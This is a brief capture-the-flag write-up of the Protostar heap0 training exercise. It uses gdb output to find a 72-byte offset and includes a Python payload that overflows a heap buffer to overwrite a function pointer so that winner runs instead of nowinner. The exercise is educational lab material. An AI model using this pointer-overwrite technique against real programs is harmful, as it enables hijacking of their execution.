 ### S0lv3d by H4yicl3

link https://exploit-exercises.com/protostar/heap0/

compile source c
```
gcc -o heap0 heap0.c
./heap0 <argv[1]>
```

create breakpoint and see the heap in the gdb
```asm
0x0804853c <+103>:   mov    eax,DWORD PTR [esp+0x18]

b *0x0804853c
r AAAAAAAAAAAAAA
x/40wx 0x804b000

0x804b000:      0x00000000      0x00000049      0x41414141      0x41414141
0x804b010:      0x41414141      0x00004141      0x00000000      0x00000000
0x804b020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804b050:      0x080484c1      0x00000000      0x00000000      0x00020fa9
```

so we see the address of nowinner
```
gdb-peda$ p nowinner
$1 = {<text variable, no debug info>} 0x80484c1 <nowinner>
gdb-peda$ x/wx 0x804b050
0x804b050:      0x080484c1
```

ok !! now we know the address of f->fp = nowinner
we need to change it become f->fp = winner 
so it will run the winner instead of nowinner

the start of heap we can write is 0x804b008
we need change address at 0x804b050
so the offset is 0x50-0x08 = 0x48 =72

the winner address 
```
gdb-peda$ p winner
$2 = {<text variable, no debug info>} 0x80484ad <winner>
```

the python code look like
```
padding ="A"*0x48
padding +="\xad\x84\x04\x08"
print padding
```

try to run this
```
hayicle@ubuntu:~/ctf/protostar/heap$ ./heap0 $(cat input)
data is at 0x804b008 , fp is at 0x804b050 
i am hayicle
```


g00d luck!
